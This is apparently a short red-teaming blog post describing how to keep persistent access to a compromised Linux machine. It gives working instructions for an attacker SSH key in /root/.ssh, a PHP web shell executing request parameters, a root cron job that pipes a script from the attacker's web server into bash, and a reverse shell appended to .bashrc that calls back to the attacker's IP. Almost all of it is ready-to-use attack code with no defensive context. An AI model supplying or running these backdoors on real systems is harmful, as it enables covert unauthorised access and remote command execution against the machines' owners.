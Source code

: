 ```yaml
---
title: "Backdoors"
collection: posts
type: "Info"
permalink: /posts/backdoors
venue: "Red Teaming"
date: 2023-03-23
location: "City, Country"
---
```


## Description : 

A backdoor attack is a way to ensure our consistent access to the machine

---

### SSH Backdoor : 

* Generate a set of ssh keys : 

```bash
ssh-keygen
```

* Now we have 2 keys, 1 private key and 1 public key 
* We rename the ublic key to *authorized_key* and move it to /root/.ssh

* Now we transfer the private key to our machine and give it the right permission 

```bash
chmod 600 id_rsa
```

* To login into our target machine :

```bash
ssh -i id_rsa root@X.X.X.X
```

---

### PHP Backdoor : 

* Create a php file 
* put this piece of code inside the php file :

```bash
<?php
if (isset($_REQUEST['cmd'])) {
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}

?>
```
* You have to leave the file in /var/www/html or you can add this piece of code in already existing php files

* You can access the file by visiting http:/X.X.X.X./FILE.php

---

### Cronjob Backdoor : 

* On your machine create a shell file: 
```bash 
#!/bin/bash
bash -i >& /dev/tcp/<YOUR-IP>/<YOUR-PORT> 0>&1
```

* Start a python web server 

```bash
python3 -m http.server
```

* Add this line in /etc/crontab

```bash
* *     * * *   root    curl http://<yourip>:80/shell | bash
```

---

### .bashrc Backdoor : 

* Run this command :

```bash
echo 'bash -i >& /dev/tcp/<YOUR-IP>/<YOUR-PORT> 0>&1' >> ~/.bashrc
```

* If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched

* You should always have your *nc* listener ready as we don't know when the user will log on